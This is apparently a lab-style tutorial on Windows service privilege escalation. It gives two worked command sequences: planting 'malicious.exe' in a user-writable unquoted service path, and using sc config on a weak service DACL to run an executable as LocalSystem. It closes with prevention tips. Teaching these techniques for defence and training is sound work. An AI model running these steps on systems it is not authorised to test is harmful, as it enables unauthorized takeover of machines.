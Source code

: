 Check if we can write to the directory:

```cmd
C:\> icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

The BUILTIN\Users group has write permissions. We can exploit this:

```cmd
# Place malicious executable in the path
C:\> move malicious.exe C:\MyPrograms\Disk.exe

# Set permissions
C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F

# Restart service
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

## Real-World Example 2: Exploiting Insecure Service Permissions

For a service with insecure DACL:

```cmd
C:\> accesschk64.exe -qlc THMService
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

We can reconfigure it:

```cmd
# Reconfigure service
C:\> sc config THMService binPath= "C:\Users\user\malicious.exe" obj= LocalSystem

# Restart service
C:\> sc stop THMService
C:\> sc start THMService
```

## Detection and Prevention

To prevent service-based privilege escalation:

1. Use quotes for service paths with spaces
2. Restrict write access to service executables and directories
3. Set proper DACLs on services to prevent reconfiguration
4. Run services with least privilege accounts
5. Regularly audit service configurations and permissions
